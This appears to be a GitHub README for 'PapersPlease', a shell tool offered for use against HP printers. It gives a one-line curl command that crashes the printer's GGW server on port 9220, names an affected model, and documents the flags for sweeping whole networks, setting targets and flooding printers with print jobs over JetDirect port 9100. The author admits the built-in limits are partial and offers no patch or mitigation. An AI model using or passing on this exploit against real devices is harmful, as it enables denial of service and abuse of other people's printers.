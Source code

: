 
<div align="center">

<img src="./Assets/Papers_Please_Logo.png" width="20%" />
<br><br>
</div>

## Description

PapersPlease is an exploit that allows an attacker to remotely crash an HP printer by exploiting the internal GGW server.
So far residential class printers have been observed to be exploitable by this vulnerability.
The tool also comes with the ability to mass print documents from either a single printer 
or all printers on a network by abusing HPs JetDirect protocol found on port 9100.

Notice that the program will stop you from connecting to known government external 
IP addresses. While not blocking all of them, it is there to stop skiddies from accidentally 
(or purposefully) scanning government addresses… as that would be bad.  

Also note that while exploiting a network range, you will only be able to specify a private IP address. 
As I’m not going to be responsible for some kid taking every port-forwarded printer down 
on the Internet, as funny as that would be. 

## How It Works

While the inner workings are more complicated, the exploit in its purest form is as follows:
<br><br>
`curl [IP]:9220 -X 'open 99999999'`
<br><br>
Whats happening here is we are telling the internal GGW server to retrieve the process name running on index number 99999999. However upon receiving the request, the GGW server will instantly crash.
At this time it is unknown exactly why the GGW server crashes when receiving such a request as it is well within range of the allowed index number length which is any number <= 19 digits. In addition, any index number 8 or 9 digits in length will cause the GGW server to crash.

## Recovering from Exploit

An exploited printer will need to be power-cycled in order to return to a working-state.

## Known Affected Models
| Model | DoS | Mass Print | GGW Version |
| :---:  | :---: | :---: | :---: |
| HP Envy 7640 |  True  |  False  |  Version: 1.0  |

**NOTE**:<br>
While the above models are confirmed to be vulnerable, you will usually not know what you are exploiting in the real world.
As the program is made to be a 'point and shoot' no prior recon is required.
However you can still specify specific printers with the `--target` flag.

## Supported Platforms

All x86-64 Linux distributions with parallel in their repositories and/or are able to build said package.

Android phones are also compatible through `Termux`, an Android terminal application. 

## Usage

```
./Papers_Please.sh [OPTION]
OPTION:			    DESCRIPTION:
-t, --target={IP}	    Specify a specific
			    target rather than
		     	    all addresses on
			    the network.

-n, --network={IP/CIDR}     Manually specify the
			    network address for
			    the current network
			    you are on.

--papyrus={N}	    	    Number of jobs to
			    send to the printer
			    this should cause
			    the printer to print
			    N number of pages.

-i, --interval={N}  	    The interval before
			    another job is sent
			    to the printer. Where
			    N can be a decimal
			    i.e. 0.1 or a whole
			    number. The default
			    interval is 1.

-j, --jobs={-N|+N|N%|N}     Number of jobs to
			    run. Passes value
			    to parallel.
			    Defaults to 0.

-p, --proc={-N|+N|N%|N}	    Define the maximum
			    N of processes that
			    can be active at a
			    time. Defaults to
			    1.

-s, --slots={-N|+N|N%|N}    The amount of
			    'slots' available
			    to be used by
			    parallel for jobs.
			    Default is 252.

-P, --port={PORT} 	    Specify a specific 
			    port. Useful for 
			    port-forwarded
			    hosts. Port number 
			    is set automatically 
			    based on the attack
			    being preformed.
			    PORT can be any
			    number ranging
			    from 1 to 65535. 

--no-check		    Will skip dependency
			    checking.

-q, --quiet		    Suppress output to
			    terminal. Only the
			    progress bar from
			    parallel will be
			    printed to the
			    terminal in this
			    mode.

-v, --version		    Print version
			    information
			    then exit.

-h, --help		    Print this
			    dialog page.
```

